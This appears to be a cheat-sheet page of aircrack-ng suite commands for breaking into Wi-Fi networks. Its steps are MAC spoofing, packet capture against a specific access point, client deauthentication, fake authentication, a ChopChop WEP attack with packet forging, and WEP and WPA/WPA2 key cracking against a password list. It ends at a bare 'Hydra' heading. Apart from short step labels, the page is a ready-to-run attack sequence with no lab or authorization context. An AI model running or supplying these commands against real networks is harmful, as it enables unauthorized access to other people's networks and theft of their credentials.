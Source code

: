 {% highlight PowerShell %}
airmon-ng stop ath0
ifconfig wifi0 down
macchanger --mac 00:11:22:33:44:55 wifi0
airmon-ng start wifi0
{% endhighlight %}

STARTS AIRODUMP TO CAPTURE IVS -c 5 (-c channel of the axs point in this case 5, -w filename, –bssid mac of10.0.57.11 AP

{% highlight PowerShell %}
airodump-ng -c 5 -w filename --bssid 00:24:B2:B4:21:C0 ath0
{% endhighlight %}

DEAUTH

{% highlight PowerShell %}
aireplay-ng -0 1 -a 00:24:B2:B4:21:C0 -c 00:26:5E:47:CB:D4 ath0
{% endhighlight %}

FAKE AUTH

{% highlight PowerShell %}
aireplay-ng -1 0 -e BTVOYAGER2500V-01 -a 00:24:B2:B4:21:C0 -h 00:11:22:33:44:55 ath0
aireplay-ng -1 6000 -o 1 -q 10 -a 00:24:B2:B4:21:C0 -h 00:11:22:33:44:55 ath0
{% endhighlight %}

## CHOPCHOP WEP ATTACK-4

{% highlight PowerShell %}
aireplay-ng -4 -h 00:11:22:33:44:55 -b 00:24:B2:B4:21:C0 ath0
packetforge-ng -0 -a 00:24:B2:B4:21:C0 -h 00:11:22:33:44:55 -k 255.255.255.255 -l 255.255.255.255 -y replay_dec-1123-200316.xor -w test
aireplay-ng -2 -r test ath0
{% endhighlight %}

## Cracking Wireless

RUN WEP CRACK

{% highlight PowerShell %}
aircrack-ng -n 128 -z -f 1 -e test -b 00:24:B2:B4:21:C0 test*.cap
{% endhighlight %}

WPA WPA2 CRACK

{% highlight PowerShell %}
aircrack-ng -w password.lst -b 00:24:B2:B4:21:C0 filename*.cap
aircrack-ng -w /usr/local/john-1.7.2/password.lst -b 00:24:B2:B4:21:C0 filename*.cap
{% endhighlight %}

# Hydra

Comma seperated
